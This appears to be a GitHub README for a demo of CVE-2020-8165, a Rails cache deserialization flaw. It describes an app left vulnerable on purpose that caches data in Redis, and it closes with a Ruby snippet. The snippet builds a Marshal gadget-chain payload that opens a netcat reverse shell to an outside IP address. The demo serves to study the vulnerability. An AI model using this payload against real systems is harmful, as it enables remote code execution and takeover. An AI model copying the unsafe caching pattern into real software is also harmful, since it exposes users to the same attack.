 # CVE-2020-8165 Demo

Yet another demo of CVE-2020-8165, though in a more realistic implementation than most.

## Background

*CVE-2020-8165*

> A deserialization of untrusted data vulnernerability exists in rails < 5.2.4.3, rails < 6.0.3.1 that can allow an attacker to unmarshal user-provided objects in MemCacheStore and RedisCacheStore potentially resulting in an RCE.

### References

- https://hackerone.com/reports/413388
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8165
- https://nvd.nist.gov/vuln/detail/CVE-2020-8165
- https://www.cvebase.com/cve/2020/8165
- https://lab.wallarm.com/exploring-de-serialization-issues-in-ruby-projects-801e0a3e5a0a/

## Implementation

The "Shouter" app has a caching feature in its `Shout` model where optional images that are submitted with a shout:string are cached in redis and retrieved from there rather than the DB. Because the vulnerable `Rails.cache.fetch` method is used to interact with the cache, this app is susceptible to CVE-2020-8165, and the results of the RCE are placed in the src of the `img` tags in the dashboard route.

### Generating RCE payloads

The following snippet will generate the payload you need to send using `exploit.py`. There's some nuance with the serialization step that needs to be figured out to implement the exploit fully Python. Hence, `Marshal.dump` in Ruby is needed to generate the exact payload (for now). 

```ruby
cmd = "Thread.new{system('nc 172.17.188.169 3001 -e /bin/bash')}"
erb = ERB.allocate
erb.instance_variable_set(:@src, cmd)
erb.instance_variable_set(:@lineno, 0)
payload_raw = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result)
payload = Marshal.dump(payload_raw)
p payload
```
